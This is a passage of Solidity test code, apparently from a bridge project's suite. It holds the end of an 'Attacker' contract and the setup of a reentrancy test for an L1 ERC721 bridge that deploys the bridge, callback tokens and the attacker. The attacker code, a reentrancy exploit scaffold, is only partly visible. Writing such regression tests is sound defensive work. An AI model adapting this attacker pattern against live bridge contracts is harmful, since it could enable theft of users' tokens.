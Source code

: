 ```solidity
        if (localToken.ownerOf(tokenId) == address(this)) {
            localToken.approve(address(bridge), tokenId);
        } else {
            revert("Attack did not succeed");
        }
    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external pure returns (bytes4) {
        return this.onERC721Received.selector;
    }

    function supportsInterface(bytes4 interfaceId) public view override returns (bool) {
        return
            interfaceId == type(ISomeCommonContract).interfaceId ||
            super.supportsInterface(interfaceId);
    }
}

contract L1ERC721BridgeReentrancy_Test is Messenger_Initializer {
    ERC721Callback internal localToken;
    ERC721Callback internal remoteToken;
    L1ERC721Bridge internal bridge;
    Attacker internal attacker;
    address internal constant otherBridge = address(0x3456);
    uint256 internal constant tokenId = 1;

    event ERC721BridgeInitiated(
        address indexed localToken,
        address indexed remoteToken,
        address indexed from,
        address to,
        uint256 tokenId,
        bytes extraData
    );

    event ERC721BridgeFinalized(
        address indexed localToken,
        address indexed remoteToken,
        address indexed from,
        address to,
        uint256 tokenId,
        bytes extraData
    );

    function setUp() public override {
        super.setUp();

        // Deploy the L1ERC721Bridge.
        bridge = new L1ERC721Bridge(address(L1Messenger), otherBridge);

        // Create necessary contracts.
        localToken = new ERC721Callback();
        remoteToken = new ERC721Callback();

        // Deploy the Attacker
        attacker = new Attacker(op, localToken, address(remoteToken), bridge);

        // Label the bridges and the attacker so we get nice traces.
```